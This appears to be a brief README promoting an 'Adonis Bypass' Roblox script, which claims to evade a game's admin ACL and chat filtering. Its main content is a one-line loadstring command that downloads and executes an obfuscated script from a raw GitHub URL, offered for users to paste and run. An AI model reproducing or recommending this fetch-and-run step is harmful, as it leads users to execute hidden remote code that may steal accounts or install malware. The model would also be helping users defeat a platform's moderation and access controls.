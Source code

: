 # Adonis Bypass | Official Website:
https://zo9070.vercel.app
## Best functioning Adonis Bypass that allows Public bathroom simulator to use ACL, chat bypasses.
# Ready to try? Use it now!
## loadstring(game:HttpGet("https://raw.githubusercontent.com/John142-dot/adonisbypass.lua/refs/heads/main/obfuscatedscriptxd",true))()
